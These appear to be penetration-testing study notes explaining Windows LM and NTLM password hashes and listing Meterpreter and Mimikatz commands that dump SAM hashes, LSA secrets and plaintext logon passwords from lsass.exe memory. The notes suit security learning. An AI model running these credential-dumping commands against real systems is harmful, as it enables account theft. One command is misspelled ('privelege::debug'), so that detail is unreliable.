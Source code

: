 Used to avoid storing the password in plaintext. The process is done by lsass.exe.

LM and NTLM hashes are most likely to come across. LM is very old, so you will likely only see NTLM v1 or v2.

All hashes are stored in the SAM database (all creds stored hashed) and the SAM database cannot be copies while the system is running. However, you can memdump the creds from lsass.exe but this requires an elevated system.

LM Hash was used prior to NT 4.0

 1. Password broken into 2 7 character chunks
 2. All passwords are then stored in uppercase
 3. Each chunk is then hashed seperately with DES Algorithm
 4. Does not include salts to it is easy to break.

NTLM (NT Hash)

 collection of auth protocols that are utilized in windows to faciliatate auth between computers. Implemented as standard since windows vista. When accounts is created it is encrypted using MD4 alg while original is disposed of.

  Improvements over LM:

   1. does not split the hash into chunks
     2. Case Sensitive
     3. Allows the use of symbols and unicode
   
**Mimikatz**

De-facto standard for hash extraction from memory. Can steal clear text creds, hashes, and kerberos tickets from memory.

Kali and Parrot comes with precompiled mimikatz, or you can utilize kiwi from Meterpreter session. Runs with system privs, so you must escalate privs prior to utilizing.

From Meterpreter Shell:

 - pgrep lsass.exe
 - migrate < PID >
 - load kiwi
 - lsa_dump_sam ( will provide you with hashes along with syskey for cracking )

**Without Meterpreter**

Compiled copy stored under /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

privelege::debug ( if you return a result of 20 you have perms for memory hash dump )

lsadump::sam ( dumps hashes )
lsadump::secrets
sekurlsa::logonpasswords ( will reveal plaintext passwords if they are configured to be stored in memory ) 
